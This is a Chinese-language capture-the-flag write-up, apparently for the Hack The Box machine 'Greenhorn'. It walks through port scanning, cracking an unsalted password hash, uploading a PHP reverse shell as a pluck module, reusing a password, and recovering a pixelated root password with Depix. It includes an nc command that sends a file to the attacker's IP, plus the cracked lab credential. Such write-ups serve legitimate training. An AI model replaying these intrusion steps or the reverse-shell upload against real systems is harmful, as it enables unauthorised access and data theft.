

# ✔️ Greenhorn

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描，获得3个开放端口：

```bash
nmap -sC -sV -p- -oA greenhorn 10.129.61.36 --open
```

<figure><figcaption></figcaption></figure>

* 将IP和域名添加到/etc/hosts文件后，开始检查80端口上的内容，发现了目标正在运行的软件pluck和admin登录的入口：

<figure><figcaption></figcaption></figure>

* 进入admin面板后发现了pluck的版本（4.7.18），随后尝试几个弱口令均失败：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 转到3000端口依次对其内容进行信息收集，发现其正在运行的是Gitea 1.21.11并且还有目标系统的源码：

<figure><figcaption></figcaption></figure>

* 其中有几个文件可以重点关注：admin.php / login.php

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 在`login.php`这个文件中，其源码描述了关于用户登陆验证的过程。其中使用了SHA-512算法加密了密码(未加盐)，这意味着可以使用暴力破解。并且也指明了密码文件是pass.php：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* `pass.php`位于/data/settings/pass.php该路径下，里面有一个hash密码，把它保存为一个hashes.txt文件用于后续暴破：

<figure><figcaption></figcaption></figure>

* 在hash example上查找对应的模式，用于hashcat暴破（不确定是哪种就附近几个都试一下）：

<figure><figcaption></figcaption></figure>

```bash
hashcat -m 1700 hashes.txt rockyou.txt
```

<figure><figcaption></figcaption></figure>

* 暴破出明文密码：<mark style="color:red;">**iloveyou1**</mark>，由此获得第一个有效凭证: <mark style="color:red;">**admin : iloveyou1**</mark>

<figure><figcaption></figcaption></figure>

* 利用该凭证成功登录80端口的admin界面：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 在信息枚举阶段获取到的Web页面运行的pluck 4.7.18确实是有一个远程代码执行的漏洞，但是在本例中的漏洞利用阶段仅起到了辅助作用，并未直接利用：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 从该漏洞脚本中可以确认其上传文件的类型是zip类型，这为后续上传反弹shell做了提示：

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 通过之前收集到的信息和发现的可利用脚本得知，可以往包含漏洞的目标系统上上传利用脚本，这里直接上传常用的一个php的反弹shell脚本（pentestmonkey），修改自己的kali本机IP和端口，做好监听:

<figure><figcaption></figcaption></figure>

* 本例中有两个可以上传的功能点，一个是manage files，一个是manage modules，分别尝试等待回连：

<figure><figcaption></figcaption></figure>

* 直接上传php脚本可以上传成功，但是无法触发，因为目标做了保护直接在我的脚本后面加了txt后缀：

<figure><figcaption></figcaption></figure>

* 根据之前找到的pluck 4.7.18远程代码执行漏洞的脚本提示，需要将上传的文件压缩成ZIP文件才可以成功执行，所以把反弹shell脚本压缩成ZIP文件：

```bash
zip revershell.zip revershell.php
```

<figure><figcaption></figcaption></figure>

* 再次上传发现还是可以成功，但仍然无法执行回连：

<figure><figcaption></figcaption></figure>

* 切换测试下一个上传点

### GET SHELL

* 可尝试用之前的有效凭证登录一下ssh服务，但是失败：

<figure><figcaption></figcaption></figure>

* 在manage modules中的install a module中尝试上传反弹shell：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 至此，上传成功后即可获得回连的shell：

<figure><figcaption></figcaption></figure>

* 但是当枚举出user.txt文件后，发现没有权限访问其内容：

<figure><figcaption></figcaption></figure>

* 因为该文件是位于junior用户的/home目录中，而我当前的用户是www-data，需要切换到junior账户下才能读取，这里又是一个密码重用的问题：

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单的执行手动枚举时，发现当前账户junior并没有一些基本命令的执行权限：

<figure><figcaption></figcaption></figure>

* 并且在之前读取user.txt文件时，在其/home目录下还发现了一个PDF文件：Using OpenVAS.pdf

```bash
# 将远程文件传输到Kali本地：
nc 10.10.16.14 1234 < 'Using OpenVAS.pdf'
nc -lvnp 1234 > usingOpenVAS.pdf
```

<figure><figcaption></figcaption></figure>

* 该pdf文件描述了只有root用户可以使用\`sudo /usr/sbin/openvas\`命令，并且附上了密码，不过该密码被打上了码：

<figure><figcaption></figcaption></figure>


本例学习到了一个新工具：Depix，该工具是用于将打了码的模糊图像恢复成文本的工具。提供给该工具进行解析的图片文件不要用截图工具，直接将鼠标放在模糊的文本处，save image as...即可保存。


* Depix的使用方法在它的GitHub页面有说明 ：

<figure><figcaption></figcaption></figure>

### ROOT

* 运行Depix后解析出来了文本图片，该文本也就是root账户的明文密码，随后切换为root用户登录即可：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 重新连接一下：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


本例Get Shell阶段枚举、阅读源码和对各个上传点的尝试是重点，提权部分不算典型的OSCP机型，图像解析的部分更偏向于CTF。该机器确实不属于困难机器，只是之前没有遇到过将打码图片转换为清晰图像的情况。

(本例机器中途重置过，IP地址有改变，但不影响其利用过程和实现结果)

